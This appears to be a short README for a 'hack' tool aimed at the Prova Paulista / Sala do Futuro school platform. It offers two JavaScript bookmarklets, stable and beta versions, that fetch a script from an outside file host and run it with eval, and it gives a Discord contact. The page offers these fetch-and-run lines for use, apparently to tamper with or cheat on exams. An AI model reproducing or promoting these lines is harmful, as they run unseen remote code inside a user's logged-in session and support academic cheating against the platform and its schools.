 # 🚀 HCK - PROVA PAULISTA 

## Version Stable:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
## Version Beta v2:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745544966/saladofuturov2.js").then(t=>t.text()).then(eval);
```

### Discord: hackermoon
